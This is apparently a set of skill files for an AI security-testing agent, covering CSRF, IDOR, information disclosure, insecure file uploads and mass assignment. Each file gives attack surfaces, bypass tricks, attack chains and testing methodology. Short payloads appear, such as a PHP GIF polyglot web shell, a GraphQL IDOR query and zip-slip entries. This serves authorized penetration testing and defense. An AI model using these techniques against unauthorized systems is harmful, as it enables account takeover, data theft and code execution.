- Some frameworks accept JSON keys via form fields (e.g., `data[foo]=bar`) or treat duplicate keys leniently

### Login/Logout CSRF

- Force logout to clear CSRF tokens, then chain login CSRF to bind victim to attacker's account
- Login CSRF: submit attacker credentials to victim's browser; later actions occur under attacker's account

### OAuth/OIDC Flows

- Abuse authorize/logout endpoints reachable via GET or form POST without origin checks
- Exploit relaxed SameSite on top-level navigations
- Open redirects or loose redirect_uri validation can chain with CSRF to force unintended authorizations

### File and Action Endpoints

- File upload/delete often lack token checks; forge multipart requests to modify storage
- Admin actions exposed as simple POST links are frequently CSRFable

### GraphQL CSRF

- If queries/mutations are allowed via GET or persisted queries, exploit top-level navigation with encoded payloads
- Batched operations may hide mutations within a nominally safe request

### WebSocket CSRF

- Browsers send cookies on WebSocket handshake
- Enforce Origin checks server-side; without them, cross-site pages can open authenticated sockets and issue actions

## Bypass Techniques

### SameSite Nuance

- Lax-by-default cookies are sent on top-level cross-site GET but not POST
- Exploit GET state changes and GET-based confirmation steps
- Legacy or nonstandard clients may ignore SameSite; validate across browsers/devices

### Origin/Referer Obfuscation

- Sandbox/iframes can produce null Origin; some frameworks incorrectly accept null
- `about:blank`/`data:` URLs alter Referer
- Ensure server requires explicit Origin/Referer match

### Method Override

- Backends honoring `_method` or `X-HTTP-Method-Override` may allow destructive actions through a simple POST

### Token Weaknesses

- Accepting missing/empty tokens
- Tokens not tied to session, user, or path
- Tokens reused indefinitely; tokens in GET
- Double-submit cookie without Secure/HttpOnly, or with predictable token sources

### Content-Type Switching

- Switch between form, multipart, and `text/plain` to reach different code paths
- Use duplicate keys and array shapes to confuse parsers

### Header Manipulation

- Strip Referer via meta refresh or navigate from `about:blank`
- Test null Origin acceptance
- Leverage misconfigured CORS to add custom headers that servers mistakenly treat as CSRF tokens

## Special Contexts

### Mobile/SPA

- Deep links and embedded WebViews may auto-send cookies; trigger actions via crafted intents/links
- SPAs that rely solely on bearer tokens are less CSRF-prone, but hybrid apps mixing cookies and APIs can still be vulnerable

### Integrations

- Webhooks and back-office tools sometimes expose state-changing GETs intended for staff
- Confirm CSRF defenses there too

## Chaining Attacks

- CSRF + IDOR: force actions on other users' resources once references are known
- CSRF + Clickjacking: guide user interactions to bypass UI confirmations
- CSRF + OAuth mix-up: bind victim sessions to unintended clients

## Testing Methodology

1. **Inventory endpoints** - All state-changing endpoints including admin/staff
2. **Note request details** - Method, content-type, whether reachable via simple requests
3. **Assess session model** - Cookies with SameSite attrs, custom headers, tokens
4. **Check defenses** - Anti-CSRF tokens and Origin/Referer enforcement
5. **Attempt preflightless delivery** - Form POST, text/plain, multipart/form-data
6. **Test navigation** - Top-level GET navigation
7. **Cross-browser validation** - Behavior differs by SameSite and navigation context

## Validation

1. Demonstrate a cross-origin page that triggers a state change without user interaction beyond visiting
2. Show that removing the anti-CSRF control (token/header) is accepted, or that Origin/Referer are not verified
3. Prove behavior across at least two browsers or contexts (top-level nav vs XHR/fetch)
4. Provide before/after state evidence for the same account
5. If defenses exist, show the exact condition under which they are bypassed (content-type, method override, null Origin)

## False Positives

- Token verification present and required; Origin/Referer enforced consistently
- No cookies sent on cross-site requests (SameSite=Strict, no HTTP auth) and no state change via simple requests
- Only idempotent, non-sensitive operations affected

## Impact

- Account state changes (email/password/MFA), session hijacking via login CSRF
- Financial operations, administrative actions
- Durable authorization changes (role/permission flips, key rotations) and data loss

## Pro Tips

1. Prefer preflightless vectors (form-encoded, multipart, text/plain) and top-level GET if available
2. Test login/logout, OAuth connect/disconnect, and account linking first
3. Validate Origin/Referer behavior explicitly; do not assume frameworks enforce them
4. Toggle SameSite and observe differences across navigation vs XHR
5. For GraphQL, attempt GET queries or persisted queries that carry mutations
6. Always try method overrides and parser differentials
7. Combine with clickjacking when visual confirmations block CSRF

## Summary

CSRF is eliminated only when state changes require a secret the attacker cannot supply and the server verifies the caller's origin. Tokens and Origin checks must hold across methods, content-types, and transports.
```

## File: `strix/skills/vulnerabilities/idor.md`
```markdown
---
name: idor
description: IDOR/BOLA testing for object-level authorization failures and cross-account data access
---

# IDOR

Object-level authorization failures (BOLA/IDOR) lead to cross-account data exposure and unauthorized state changes across APIs, web, mobile, and microservices. Treat every object reference as untrusted until proven bound to the caller.

## Attack Surface

**Scope**
- Horizontal access: access another subject's objects of the same type
- Vertical access: access privileged objects/actions (admin-only, staff-only)
- Cross-tenant access: break isolation boundaries in multi-tenant systems
- Cross-service access: token or context accepted by the wrong service

**Reference Locations**
- Paths, query params, JSON bodies, form-data, headers, cookies
- JWT claims, GraphQL arguments, WebSocket messages, gRPC messages

**Identifier Forms**
- Integers, UUID/ULID/CUID, Snowflake, slugs
- Composite keys (e.g., `{orgId}:{userId}`)
- Opaque tokens, base64/hex-encoded blobs

**Relationship References**
- parentId, ownerId, accountId, tenantId, organization, teamId, projectId, subscriptionId

**Expansion/Projection Knobs**
- `fields`, `include`, `expand`, `projection`, `with`, `select`, `populate`
- Often bypass authorization in resolvers or serializers

## High-Value Targets

- Exports/backups/reporting endpoints (CSV/PDF/ZIP)
- Messaging/mailbox/notifications, audit logs, activity feeds
- Billing: invoices, payment methods, transactions, credits
- Healthcare/education records, HR documents, PII/PHI/PCI
- Admin/staff tools, impersonation/session management
- File/object storage keys (S3/GCS signed URLs, share links)
- Background jobs: import/export job IDs, task results
- Multi-tenant resources: organizations, workspaces, projects

## Reconnaissance

**Parameter Analysis**
- Pagination/cursors: `page[offset]`, `page[limit]`, `cursor`, `nextPageToken` (often reveal or accept cross-tenant/state)
- Directory/list endpoints as seeders: search/list/suggest/export often leak object IDs for secondary exploitation

**Enumeration Techniques**
- Alternate types: `{"id":123}` vs `{"id":"123"}`, arrays vs scalars, objects vs scalars
- Edge values: null/empty/0/-1/MAX_INT, scientific notation, overflows
- Duplicate keys/parameter pollution: `id=1&id=2`, JSON duplicate keys `{"id":1,"id":2}` (parser precedence)
- Case/aliasing: userId vs userid vs USER_ID; alt names like resourceId, targetId, account
- Path traversal-like in virtual file systems: `/files/user_123/../../user_456/report.csv`

**UUID/Opaque ID Sources**
- Logs, exports, JS bundles, analytics endpoints, emails, public activity
- Time-based IDs (UUIDv1, ULID) may be guessable within a window

## Key Vulnerabilities

### Horizontal & Vertical Access

- Swap object IDs between principals using the same token to probe horizontal access
- Repeat with lower-privilege tokens to probe vertical access
- Target partial updates (PATCH, JSON Patch/JSON Merge Patch) for silent unauthorized modifications

### Bulk & Batch Operations

- Batch endpoints (bulk update/delete) often validate only the first element; include cross-tenant IDs mid-array
- CSV/JSON imports referencing foreign object IDs (ownerId, orgId) may bypass create-time checks

### Secondary IDOR

- Use list/search endpoints, notifications, emails, webhooks, and client logs to collect valid IDs
- Fetch or mutate those objects directly
- Pagination/cursor manipulation to skip filters and pull other users' pages

### Job/Task Objects

- Access job/task IDs from one user to retrieve results for another (`export/{jobId}/download`, `reports/{taskId}`)
- Cancel/approve someone else's jobs by referencing their task IDs

### File/Object Storage

- Direct object paths or weakly scoped signed URLs
- Attempt key prefix changes, content-disposition tricks, or stale signatures reused across tenants
- Replace share tokens with tokens from other tenants; try case/URL-encoding variations

### GraphQL

- Enforce resolver-level checks: do not rely on a top-level gate
- Verify field and edge resolvers bind the resource to the caller on every hop
- Abuse batching/aliases to retrieve multiple users' nodes in one request
- Global node patterns (Relay): decode base64 IDs and swap raw IDs
- Overfetching via fragments on privileged types

```graphql
query IDOR {
  me { id }
  u1: user(id: "VXNlcjo0NTY=") { email billing { last4 } }
  u2: node(id: "VXNlcjo0NTc=") { ... on User { email } }
}
```

### Microservices & Gateways

- Token confusion: token scoped for Service A accepted by Service B due to shared JWT verification but missing audience/claims checks
- Trust on headers: reverse proxies or API gateways injecting/trusting headers like `X-User-Id`, `X-Organization-Id`; try overriding or removing them
- Context loss: async consumers (queues, workers) re-process requests without re-checking authorization

### Multi-Tenant

- Probe tenant scoping through headers, subdomains, and path params (`X-Tenant-ID`, org slug)
- Try mixing org of token with resource from another org
- Test cross-tenant reports/analytics rollups and admin views which aggregate multiple tenants

### WebSocket

- Authorization per-subscription: ensure channel/topic names cannot be guessed (`user_{id}`, `org_{id}`)
- Subscribe/publish checks must run server-side, not only at handshake
- Try sending messages with target user IDs after subscribing to own channels

### gRPC

- Direct protobuf fields (`owner_id`, `tenant_id`) often bypass HTTP-layer middleware
- Validate references via grpcurl with tokens from different principals

### Integrations

- Webhooks/callbacks referencing foreign objects (e.g., `invoice_id`) processed without verifying ownership
- Third-party importers syncing data into wrong tenant due to missing tenant binding

## Bypass Techniques

**Parser & Transport**
- Content-type switching: `application/json` ↔ `application/x-www-form-urlencoded` ↔ `multipart/form-data`
- Method tunneling: `X-HTTP-Method-Override`, `_method=PATCH`; or using GET on endpoints incorrectly accepting state changes
- JSON duplicate keys/array injection to bypass naive validators

**Parameter Pollution**
- Duplicate parameters in query/body to influence server-side precedence (`id=123&id=456`); try both orderings
- Mix case/alias param names so gateway and backend disagree (userId vs userid)

**Cache & Gateway**
- CDN/proxy key confusion: responses keyed without Authorization or tenant headers expose cached objects to other users
- Manipulate Vary and Accept headers
- Redirect chains and 304/206 behaviors can leak content across tenants

**Race Windows**
- Time-of-check vs time-of-use: change the referenced ID between validation and execution using parallel requests

**Blind Channels**
- Use differential responses (status, size, ETag, timing) to detect existence
- Error shape often differs for owned vs foreign objects
- HEAD/OPTIONS, conditional requests (`If-None-Match`/`If-Modified-Since`) can confirm existence without full content

## Chaining Attacks

- IDOR + CSRF: force victims to trigger unauthorized changes on objects you discovered
- IDOR + Stored XSS: pivot into other users' sessions through data you gained access to
- IDOR + SSRF: exfiltrate internal IDs, then access their corresponding resources
- IDOR + Race: bypass spot checks with simultaneous requests

## Testing Methodology

1. **Build matrix** - Subject × Object × Action matrix (who can do what to which resource)
2. **Obtain principals** - At least two: owner and non-owner (plus admin/staff if applicable)
3. **Collect IDs** - Capture at least one valid object ID per principal from list/search/export endpoints
4. **Cross-channel testing** - Exercise every action (R/W/D/Export) while swapping IDs, tokens, tenants
5. **Transport variation** - Test across web, mobile, API, GraphQL, WebSocket, gRPC
6. **Consistency check** - Same rule must hold regardless of transport, content-type, serialization, or gateway

## Validation

1. Demonstrate access to an object not owned by the caller (content or metadata)
2. Show the same request fails with appropriately enforced authorization when corrected
3. Prove cross-channel consistency: same unauthorized access via at least two transports (e.g., REST and GraphQL)
4. Document tenant boundary violations (if applicable)
5. Provide reproducible steps and evidence (requests/responses for owner vs non-owner)

## False Positives

- Public/anonymous resources by design
- Soft-privatized data where content is already public
- Idempotent metadata lookups that do not reveal sensitive content
- Correct row-level checks enforced across all channels

## Impact

- Cross-account data exposure (PII/PHI/PCI)
- Unauthorized state changes (transfers, role changes, cancellations)
- Cross-tenant data leaks violating contractual and regulatory boundaries
- Regulatory risk (GDPR/HIPAA/PCI), fraud, reputational damage

## Pro Tips

1. Always test list/search/export endpoints first; they are rich ID seeders
2. Build a reusable ID corpus from logs, notifications, emails, and client bundles
3. Toggle content-types and transports; authorization middleware often differs per stack
4. In GraphQL, validate at resolver boundaries; never trust parent auth to cover children
5. In multi-tenant apps, vary org headers, subdomains, and path params independently
6. Check batch/bulk operations and background job endpoints; they frequently skip per-item checks
7. Inspect gateways for header trust and cache key configuration
8. Treat UUIDs as untrusted; obtain them via OSINT/leaks and test binding
9. Use timing/size/ETag differentials for blind confirmation when content is masked
10. Prove impact with precise before/after diffs and role-separated evidence

## Summary

Authorization must bind subject, action, and specific object on every request, regardless of identifier opacity or transport. If the binding is missing anywhere, the system is vulnerable.
```

## File: `strix/skills/vulnerabilities/information_disclosure.md`
```markdown
---
name: information-disclosure
description: Information disclosure testing covering error messages, debug endpoints, metadata leakage, and source exposure
---

# Information Disclosure

Information leaks accelerate exploitation by revealing code, configuration, identifiers, and trust boundaries. Treat every response byte, artifact, and header as potential intelligence. Minimize, normalize, and scope disclosure across all channels.

## Attack Surface

- Errors and exception pages: stack traces, file paths, SQL, framework versions
- Debug/dev tooling reachable in prod: debuggers, profilers, feature flags
- DVCS/build artifacts and temp/backup files: .git, .svn, .hg, .bak, .swp, archives
- Configuration and secrets: .env, phpinfo, appsettings.json, Docker/K8s manifests
- API schemas and introspection: OpenAPI/Swagger, GraphQL introspection, gRPC reflection
- Client bundles and source maps: webpack/Vite maps, embedded env, `__NEXT_DATA__`, static JSON
- Headers and response metadata: Server/X-Powered-By, tracing, ETag, Accept-Ranges, Server-Timing
- Storage/export surfaces: public buckets, signed URLs, export/download endpoints
- Observability/admin: /metrics, /actuator, /health, tracing UIs (Jaeger, Zipkin), Kibana, Admin UIs
- Directory listings and indexing: autoindex, sitemap/robots revealing hidden routes

## High-Value Surfaces

### Errors and Exceptions

- SQL/ORM errors: reveal table/column names, DBMS, query fragments
- Stack traces: absolute paths, class/method names, framework versions, developer emails
- Template engine probes: `{{7*7}}`, `${7*7}` identify templating stack
- JSON/XML parsers: type mismatches leak internal model names

### Debug and Env Modes

- Debug pages: Django DEBUG, Laravel Telescope, Rails error pages, Flask/Werkzeug debugger, ASP.NET customErrors Off
- Profiler endpoints: `/debug/pprof`, `/actuator`, `/_profiler`, custom `/debug` APIs
- Feature/config toggles exposed in JS or headers

### DVCS and Backups

- DVCS: `/.git/` (HEAD, config, index, objects), `.svn/entries`, `.hg/store` → reconstruct source and secrets
- Backups/temp: `.bak`/`.old`/`~`/`.swp`/`.swo`/`.tmp`/`.orig`, db dumps, zipped deployments
- Build artifacts: dist artifacts containing `.map`, env prints, internal URLs

### Configs and Secrets

- Classic: web.config, appsettings.json, settings.py, config.php, phpinfo.php
- Containers/cloud: Dockerfile, docker-compose.yml, Kubernetes manifests, service account tokens
- Credentials and connection strings; internal hosts and ports; JWT secrets

### API Schemas and Introspection

- OpenAPI/Swagger: `/swagger`, `/api-docs`, `/openapi.json` — enumerate hidden/privileged operations
- GraphQL: introspection enabled; field suggestions; error disclosure via invalid fields
- gRPC: server reflection exposing services/messages

### Client Bundles and Maps

- Source maps (`.map`) reveal original sources, comments, and internal logic
- Client env leakage: `NEXT_PUBLIC_`/`VITE_`/`REACT_APP_` variables; embedded secrets
- `__NEXT_DATA__` and pre-fetched JSON can include internal IDs, flags, or PII

### Headers and Response Metadata

- Fingerprinting: Server, X-Powered-By, X-AspNet-Version
- Tracing: X-Request-Id, traceparent, Server-Timing, debug headers
- Caching oracles: ETag/If-None-Match, Last-Modified/If-Modified-Since, Accept-Ranges/Range

### Storage and Exports

- Public object storage: S3/GCS/Azure blobs with world-readable ACLs or guessable keys
- Signed URLs: long-lived, weakly scoped, re-usable across tenants
- Export/report endpoints returning foreign data sets or unfiltered fields

### Observability and Admin

- Metrics: Prometheus `/metrics` exposing internal hostnames, process args
- Health/config: `/actuator/health`, `/actuator/env`, Spring Boot info endpoints
- Tracing UIs: Jaeger/Zipkin/Kibana/Grafana exposed without auth

### Cross-Origin Signals

- Referrer leakage: missing/weak referrer policy leading to path/query/token leaks to third parties
- CORS: overly permissive Access-Control-Allow-Origin/Expose-Headers revealing data cross-origin; preflight error shapes

### File Metadata

- EXIF, PDF/Office properties: authors, paths, software versions, timestamps, embedded objects

### Cloud Storage

- S3/GCS/Azure: anonymous listing disabled but object reads allowed; metadata headers leak owner/project identifiers
- Pre-signed URLs: audience not bound; observe key scope and lifetime in URL params

## Key Vulnerabilities

### Differential Oracles

- Compare owner vs non-owner vs anonymous for the same resource
- Track: status, length, ETag, Last-Modified, Cache-Control
- HEAD vs GET: header-only differences can confirm existence
- Conditional requests: 304 vs 200 behaviors leak existence/state

### CDN and Cache Keys

- Identity-agnostic caches: CDN/proxy keys missing Authorization/tenant headers
- Vary misconfiguration: user-agent/language vary without auth vary leaks content
- 206 partial content + stale caches leak object fragments

### Cross-Channel Mirroring

- Inconsistent hardening between REST, GraphQL, WebSocket, and gRPC
- SSR vs CSR: server-rendered pages omit fields while JSON API includes them

## Triage Rubric

- **Critical**: Credentials/keys; signed URL secrets; config dumps; unrestricted admin/observability panels
- **High**: Versions with reachable CVEs; cross-tenant data; caches serving cross-user content
- **Medium**: Internal paths/hosts enabling LFI/SSRF pivots; source maps revealing hidden endpoints
- **Low**: Generic headers, marketing versions, intended documentation without exploit path

## Exploitation Chains

### Credential Extraction
- DVCS/config dumps exposing secrets (DB, SMTP, JWT, cloud)
- Keys → cloud control plane access

### Version to CVE
1. Derive precise component versions from headers/errors/bundles
2. Map to known CVEs and confirm reachability
3. Execute minimal proof targeting disclosed component

### Path Disclosure to LFI
1. Paths from stack traces/templates reveal filesystem layout
2. Use LFI/traversal to fetch config/keys

### Schema to Auth Bypass
1. Schema reveals hidden fields/endpoints
2. Attempt requests with those fields; confirm missing authorization

## Testing Methodology

1. **Build channel map** - Web, API, GraphQL, WebSocket, gRPC, mobile, background jobs, exports, CDN
2. **Establish diff harness** - Compare owner vs non-owner vs anonymous; normalize on status/body length/ETag/headers
3. **Trigger controlled failures** - Malformed types, boundary values, missing params, alternate content-types
4. **Enumerate artifacts** - DVCS folders, backups, config endpoints, source maps, client bundles, API docs
5. **Correlate to impact** - Versions→CVE, paths→LFI/RCE, keys→cloud access, schemas→auth bypass

## Validation

1. Provide raw evidence (headers/body/artifact) and explain exact data revealed
2. Determine intent: cross-check docs/UX; classify per triage rubric
3. Attempt minimal, reversible exploitation or present a concrete step-by-step chain
4. Show reproducibility and minimal request set
5. Bound scope (user, tenant, environment) and data sensitivity classification

## False Positives

- Intentional public docs or non-sensitive metadata with no exploit path
- Generic errors with no actionable details
- Redacted fields that do not change differential oracles
- Version banners with no exposed vulnerable surface and no chain
- Owner-visible-only details that do not cross identity/tenant boundaries

## Impact

- Accelerated exploitation of RCE/LFI/SSRF via precise versions and paths
- Credential/secret exposure leading to persistent external compromise
- Cross-tenant data disclosure through exports, caches, or mis-scoped signed URLs
- Privacy/regulatory violations and business intelligence leakage

## Pro Tips

1. Start with artifacts (DVCS, backups, maps) before payloads; artifacts yield the fastest wins
2. Normalize responses and diff by digest to reduce noise when comparing roles
3. Hunt source maps and client data JSON; they often carry internal IDs and flags
4. Probe caches/CDNs for identity-unaware keys; verify Vary includes Authorization/tenant
5. Treat introspection and reflection as configuration findings across GraphQL/gRPC
6. Mine observability endpoints last; they are noisy but high-yield in misconfigured setups
7. Chain quickly to a concrete risk and stop—proof should be minimal and reversible

## Summary

Information disclosure is an amplifier. Convert leaks into precise, minimal exploits or clear architectural risks.
```

## File: `strix/skills/vulnerabilities/insecure_file_uploads.md`
```markdown
---
name: insecure-file-uploads
description: File upload security testing covering extension bypass, content-type manipulation, and path traversal
---

# Insecure File Uploads

Upload surfaces are high risk: server-side execution (RCE), stored XSS, malware distribution, storage takeover, and DoS. Modern stacks mix direct-to-cloud uploads, background processors, and CDNs—authorization and validation must hold across every step.

## Attack Surface

- Web/mobile/API uploads, direct-to-cloud (S3/GCS/Azure) presigned flows, resumable/multipart protocols (tus, S3 MPU)
- Image/document/media pipelines (ImageMagick/GraphicsMagick, Ghostscript, ExifTool, PDF engines, office converters)
- Admin/bulk importers, archive uploads (zip/tar), report/template uploads, rich text with attachments
- Serving paths: app directly, object storage, CDN, email attachments, previews/thumbnails

## Reconnaissance

### Surface Map

- Endpoints/fields: upload, file, avatar, image, attachment, import, media, document, template
- Direct-to-cloud params: key, bucket, acl, Content-Type, Content-Disposition, x-amz-meta-*, cache-control
- Resumable APIs: create/init → upload/chunk → complete/finalize; check if metadata/headers can be altered late
- Background processors: thumbnails, PDF→image, virus scan queues; identify timing and status transitions

### Capability Probes

- Small probe files of each claimed type; diff resulting Content-Type, Content-Disposition, and X-Content-Type-Options on download
- Magic bytes vs extension: JPEG/GIF/PNG headers; mismatches reveal reliance on extension or MIME sniffing
- SVG/HTML probe: do they render inline (text/html or image/svg+xml) or download (attachment)?
- Archive probe: simple zip with nested path traversal entries and symlinks to detect extraction rules

## Detection Channels

### Server Execution

- Web shell execution (language dependent), config/handler uploads (.htaccess, .user.ini, web.config) enabling execution
- Interpreter-side template/script evaluation during conversion (ImageMagick/Ghostscript/ExifTool)

### Client Execution

- Stored XSS via SVG/HTML/JS if served inline without correct headers; PDF JavaScript; office macros in previewers

### Header and Render

- Missing X-Content-Type-Options: nosniff enabling browser sniff to script
- Content-Type reflection from upload vs server-set; Content-Disposition: inline vs attachment

### Process Side Effects

- AV/CDR race or absence; background job status allows access before scan completes; password-protected archives bypass scanning

## Core Payloads

### Web Shells and Configs

- PHP: GIF polyglot (starts with GIF89a) followed by `<?php echo 1; ?>`; place where PHP is executed
- .htaccess to map extensions to code (AddType/AddHandler); .user.ini (auto_prepend/append_file) for PHP-FPM
- ASP/JSP equivalents where supported; IIS web.config to enable script execution

### Stored XSS

- SVG with onload/onerror handlers served as image/svg+xml or text/html
- HTML file with script when served as text/html or sniffed due to missing nosniff

### MIME Magic Polyglots

- Double extensions: avatar.jpg.php, report.pdf.html; mixed casing: .pHp, .PhAr
- Magic-byte spoofing: valid JPEG header then embedded script; verify server uses content inspection, not extensions alone

### Archive Attacks

- Zip Slip: entries with `../../` to escape extraction dir; symlink-in-zip pointing outside target; nested zips
- Zip bomb: extreme compression ratios to exhaust resources in processors

### Toolchain Exploits

- ImageMagick/GraphicsMagick legacy vectors (policy.xml may mitigate): crafted SVG/PS/EPS invoking external commands or reading files
- Ghostscript in PDF/PS with file operators (%pipe%)
- ExifTool metadata parsing bugs; overly large or crafted EXIF/IPTC/XMP fields

### Cloud Storage Vectors

- S3/GCS presigned uploads: attacker controls Content-Type/Disposition; set text/html or image/svg+xml and inline rendering
- Public-read ACL or permissive bucket policies expose uploads broadly
- Object key injection via user-controlled path prefixes
- Signed URL reuse and stale URLs; serving directly from bucket without attachment + nosniff headers

## Advanced Techniques

### Resumable Multipart

- Change metadata between init and complete (e.g., swap Content-Type/Disposition at finalize)
- Upload benign chunks, then swap last chunk or complete with different source

### Filename and Path

- Unicode homoglyphs, trailing dots/spaces, device names, reserved characters to bypass validators
- Null-byte truncation on legacy stacks; overlong paths; case-insensitive collisions overwriting existing files

### Processing Races

- Request file immediately after upload but before AV/CDR completes
- Trigger heavy conversions (large images, deep PDFs) to widen race windows

### Metadata Abuse

- Oversized EXIF/XMP/IPTC blocks to trigger parser flaws
- Payloads in document properties of Office/PDF rendered by previewers

### Header Manipulation

- Force inline rendering with Content-Type + inline Content-Disposition
- Cache poisoning via CDN with keys missing Vary on Content-Type/Disposition

## Bypass Techniques

### Validation Gaps

- Client-side only checks; relying on JS/MIME provided by browser
- Trusting multipart boundary part headers blindly
- Extension allowlists without server-side content inspection

### Evasion Tricks

- Double extensions, mixed case, hidden dotfiles, extra dots (file..png), long paths with allowed suffix
- Multipart name vs filename vs path discrepancies; duplicate parameters and late parameter precedence

## Special Contexts

### Rich Text Editors

- RTEs allow image/attachment uploads and embed links; verify sanitization and serving headers

### Mobile Clients

- Mobile SDKs may send nonstandard MIME or metadata; servers sometimes trust client-side transformations

### Serverless and CDN

- Direct-to-bucket uploads with Lambda/Workers post-processing; verify security decisions are not delegated to frontends
- CDN caching of uploaded content; ensure correct cache keys and headers

## Testing Methodology

1. **Map the pipeline** - Client → ingress → storage → processors → serving. Note where validation and auth occur
2. **Identify allowed types** - Size limits, filename rules, storage keys, and who serves the content
3. **Collect baselines** - Capture resulting URLs and headers for legitimate uploads
4. **Exercise bypass families** - Extension games, MIME/content-type, magic bytes, polyglots, metadata payloads, archive structure
5. **Validate execution** - Can uploaded content execute on server or client?

## Validation

1. Demonstrate execution or rendering of active content: web shell reachable, or SVG/HTML executing JS when viewed
2. Show filter bypass: upload accepted despite restrictions with evidence on retrieval
3. Prove header weaknesses: inline rendering without nosniff or missing attachment
4. Show race or pipeline gap: access before AV/CDR; extraction outside intended directory
5. Provide reproducible steps: request/response for upload and subsequent access

## False Positives

- Upload stored but never served back; or always served as attachment with strict nosniff
- Converters run in locked-down sandboxes with no external IO and no script engines
- AV/CDR blocks the payload and quarantines; access before scan is impossible by design

## Impact

- Remote code execution on application stack or media toolchain host
- Persistent cross-site scripting and session/token exfiltration via served uploads
- Malware distribution via public storage/CDN; brand/reputation damage
- Data loss or corruption via overwrite/zip slip; service degradation via zip bombs

## Pro Tips

1. Keep PoCs minimal: tiny SVG/HTML for XSS, a single-line PHP/ASP where relevant
2. Always capture download response headers and final MIME; that decides browser behavior
3. Prefer transforming risky formats to safe renderings (SVG→PNG) rather than complex sanitization
4. In presigned flows, constrain all headers and object keys server-side
5. For archives, extract in a chroot/jail with explicit allowlist; drop symlinks and reject traversal
6. Test finalize/complete steps in resumable flows; many validations only run on init
7. Verify background processors with EICAR and tiny polyglots
8. When you cannot get execution, aim for stored XSS or header-driven script execution
9. Validate that CDNs honor attachment/nosniff
10. Document full pipeline behavior per asset type

## Summary

Secure uploads are a pipeline property. Enforce strict type, size, and header controls; transform or strip active content; never execute or inline-render untrusted uploads; and keep storage private with controlled, signed access.
```

## File: `strix/skills/vulnerabilities/mass_assignment.md`
```markdown
---
name: mass-assignment
description: Mass assignment testing for unauthorized field binding and privilege escalation via API parameters
---

# Mass Assignment

Mass assignment binds client-supplied fields directly into models/DTOs without field-level allowlists. It commonly leads to privilege escalation, ownership changes, and unauthorized state transitions in modern APIs and GraphQL.

## Attack Surface

- REST/JSON, GraphQL inputs, form-encoded and multipart bodies
- Model binding in controllers/resolvers; ORM create/update helpers
- Writable nested relations, sparse/patch updates, bulk endpoints

## Reconnaissance

### Surface Map

- Controllers with automatic binding (e.g., request.json → model)
- GraphQL input types mirroring models; admin/staff tools exposed via API
- OpenAPI/GraphQL schemas: uncover hidden fields or enums
- Client bundles and mobile apps: inspect forms and mutation payloads for field names

### Parameter Strategies

- Flat fields: `isAdmin`, `role`, `roles[]`, `permissions[]`, `status`, `plan`, `tier`, `premium`, `verified`, `emailVerified`
- Ownership/tenancy: `userId`, `ownerId`, `accountId`, `organizationId`, `tenantId`, `workspaceId`
- Limits/quotas: `usageLimit`, `seatCount`, `maxProjects`, `creditBalance`
- Feature flags/gates: `features`, `flags`, `betaAccess`, `allowImpersonation`
- Billing: `price`, `amount`, `currency`, `prorate`, `nextInvoice`, `trialEnd`

### Shape Variants

- Alternate shapes: arrays vs scalars; nested JSON; objects under unexpected keys
- Dot/bracket paths: `profile.role`, `profile[role]`, `settings[roles][]`
- Duplicate keys and precedence: `{"role":"user","role":"admin"}`
- Sparse/patch formats: JSON Patch/JSON Merge Patch; try adding forbidden paths

### Encodings and Channels

- Content-types: `application/json`, `application/x-www-form-urlencoded`, `multipart/form-data`, `text/plain`
- GraphQL: add suspicious fields to input objects; overfetch response to detect changes
- Batch/bulk: arrays of objects; verify per-item allowlists not skipped

## Key Vulnerabilities

### Privilege Escalation

- Set role/isAdmin/permissions during signup/profile update
- Toggle admin/staff flags where exposed

### Ownership Takeover

- Change ownerId/accountId/tenantId to seize resources
- Move objects across users/tenants

### Feature Gate Bypass

- Enable premium/beta/feature flags via flags/features fields
- Raise limits/seatCount/quotas

### Billing and Entitlements

- Modify plan/price/prorate/trialEnd or creditBalance
- Bypass server recomputation

### Nested and Relation Writes

- Writable nested serializers or ORM relations allow creating or linking related objects beyond caller's scope

## Advanced Techniques

### GraphQL Specific

- Field-level authz missing on input types: attempt forbidden fields in mutation inputs
- Combine with aliasing/batching to compare effects
- Use fragments to overfetch changed fields immediately after mutation

### ORM Framework Edges

- **Rails**: strong parameters misconfig or deep nesting via `accepts_nested_attributes_for`
- **Laravel**: $fillable/$guarded misuses; `guarded=[]` opens all; casts mutating hidden fields
- **Django REST Framework**: writable nested serializer, read_only/extra_kwargs gaps, partial updates
- **Mongoose/Prisma**: schema paths not filtered; `select:false` doesn't prevent writes; upsert defaults

### Parser and Validator Gaps

- Validators run post-bind and do not cover extra fields
- Unknown fields silently dropped in response but persisted underneath
- Inconsistent allowlists between mobile/web/gateway; alt encodings bypass validation pipeline

## Bypass Techniques

### Content-Type Switching

- Switch JSON ↔ form-encoded ↔ multipart ↔ text/plain; some code paths only validate one

### Key Path Variants

- Dot/bracket/object re-shaping to reach nested fields through different binders

### Batch Paths

- Per-item checks skipped in bulk operations
- Insert a single malicious object within a large batch

### Race and Reorder

- Race two updates: first sets forbidden field, second normalizes
- Final state may retain forbidden change

## Testing Methodology

1. **Identify endpoints** - Create/update endpoints and GraphQL mutations
2. **Capture responses** - Observe returned fields to build candidate list
3. **Build sensitive-field dictionary** - Per resource: role, isAdmin, ownerId, status, plan, limits, flags
4. **Inject candidates** - Alongside legitimate updates across transports and encodings
5. **Compare state** - Before/after diffs across roles
6. **Test variations** - Nested objects, arrays, alternative shapes, duplicate keys, batch operations

## Validation

1. Show a minimal request where adding a sensitive field changes persisted state for a non-privileged caller
2. Provide before/after evidence (response body, subsequent GET, or GraphQL query) proving the forbidden attribute value
3. Demonstrate consistency across at least two encodings or channels
4. For nested/bulk, show that protected fields are written within child objects or array elements
5. Quantify impact (e.g., role flip, cross-tenant move, quota increase) and reproducibility

## False Positives

- Server recomputes derived fields (plan/price/role) ignoring client input
- Fields marked read-only and enforced consistently across encodings
- Only UI-side changes with no persisted effect

## Impact

- Privilege escalation and admin feature access
- Cross-tenant or cross-account resource takeover
- Financial/billing manipulation and quota abuse
- Policy/approval bypass by toggling verification or status flags

## Pro Tips

1. Build a sensitive-field dictionary per resource and fuzz systematically
2. Always try alternate shapes and encodings; many validators are shape/CT-specific
3. For GraphQL, diff the resource immediately after mutation; effects are often visible even if the mutation returns filtered fields
4. Inspect SDKs/mobile apps for hidden field names and nested write examples
5. Prefer minimal PoCs that prove durable state changes; avoid UI-only effects

## Summary

Mass assignment is eliminated by explicit mapping and per-field authorization. Treat every client-supplied attribute—especially nested or batch inputs—as untrusted until validated against an allowlist and caller scope.
```

## File: `strix/skills/vulnerabilities/open_redirect.md`
```markdown
---
name: open-redirect
